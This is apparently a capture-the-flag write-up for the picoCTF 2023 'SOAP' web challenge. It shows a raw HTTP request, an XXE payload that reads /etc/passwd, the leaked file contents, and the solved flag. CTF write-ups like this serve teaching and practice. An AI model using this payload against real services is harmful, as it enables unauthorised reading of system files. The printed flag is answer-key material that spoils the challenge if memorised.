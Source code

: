 # picoCTF 2023 - SOAP (Web Exploitation)

## Description 

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

[Web Portal](http://saturn.picoctf.net:61756/)

## Solution 

As this is a XXE injection attack, we can use some software to edit the HTTP file. 

Below is the raw file 
```
POST /data HTTP/1.1
Host: saturn.picoctf.net:61756
Content-Length: 61
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:61756
Referer: http://saturn.picoctf.net:61756/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: isAdmin=0
Connection: close

<?xml version="1.0" encoding="UTF-8"?><data><ID>3</ID></data>
```

We can see that there is some xml code at the bottom. 
We can change that to 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data><ID>&xxe;</ID></data>
```
Then, we can see the response in the browser as 
```
Invalid ID: root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin flask:x:999:999::/app:/bin/sh picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}
```

## Flag 

`picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}`